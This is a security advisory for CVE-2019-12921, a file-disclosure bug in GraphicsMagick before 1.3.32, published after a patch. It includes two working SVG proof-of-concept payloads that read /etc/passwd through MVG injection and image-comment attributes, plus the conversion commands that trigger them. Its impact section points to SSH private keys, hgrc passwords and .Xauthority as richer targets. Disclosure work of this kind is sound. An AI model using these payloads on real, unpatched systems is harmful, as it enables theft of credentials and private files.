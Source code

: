 # CVE-2019-12921
- Title:         Arbitrary file read at TranslateTextEx GraphicsMagick before 1.3.32
- Scope:         http://hg.code.sf.net/p/graphicsmagick/code/
- Weakness:      Information Disclosure
- Severity:      High
- Date:          2019-06-24 12:21:30 +0000
- By:            @d4d

## Arbitrary file read at TranslateTextEx GraphicsMagick before 1.3.32

Local file read vulnerability affects GraphicsMagick multiple decoders that may use MVG syntaxis by default. Malicious user can get access to the local file content.
To exploit this vulnerability untrusted user file should be converted to another format with command:
`gm convert exploit.svg output.png`

where exploit.svg is
```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="1237px" height="1237px" version="1.1"
     xmlns="http://www.w3.org/2000/svg" xmlns:xlink= "http://www.w3.org/1999/xlink">
     <image xlink:href="http://www.google.com/images/branding/googlelogo/2x/googlelogo_color_272x92dp.png' text 128,128 '@/etc/passwd" x="0" y="0" height="137px" width="137px"/>
</svg>
```

Exploit inject custom TextPrimitive inside ImagePrimitive at MVG coder. SVG coder when reads xlink:href attribute do not properly escape ' and any MVG commands can be injected. Function AnnotateImage(annotate.c) reads text from file with TranslateTextEx that accepts '@' as local file.

Malicious user can exploit this vulnerability at image attributes generation process for SVG coder too. 
Attributes generation process at some of the images such as SVG have issue that may allow malicious user read any local file contents.
exploit.svg is
```xml
<?xml version="1.0" standalone="no"?>
<!--@/etc/passwd-->
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="1237px" height="1237px" version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink= " http://www.w3.org/1999/xlink"> <image xlink:href="http://www.google.com/images/branding/googlelogo/2x/googlelogo_color_272x92dp.png" x="0" y="0" height="137px" width="137px"/></svg>
```

Function SetImageAttribute(Image *image,const char *key,const char *value) do not properly translate comments and label for this image that allow attacker to get file contents when image attributes will be written for image formats like JPEG and GIF. To reproduce vulnerability convert image:
`gm convert exploit.svg output.gif`
`gm convert exploit.svg output.jpeg`
Image attributes (comments section) will contains file contents.

## Timeline
- Reported to project maintainers: 6 Jun 2019
- Acknowledged: 6 June 2019
- Patched: 6 June 2019
- Released: 15 June 2019
- CVE Assigned: 20 June 2019
- Advisory confirmed by project maintainers: 20 June 2019

## Impact

We are using /etc/passd file for our PoC. The passwd file is not really very sensitive on modern systems. But real malicious user can get access to the ssh private keys used for host authentication or ssh private keys without a password are more useful.  Passwords are often baked into files such as Mercurial's hgrc file.  X11's .Xauthority file might be useful on an active desktop system.
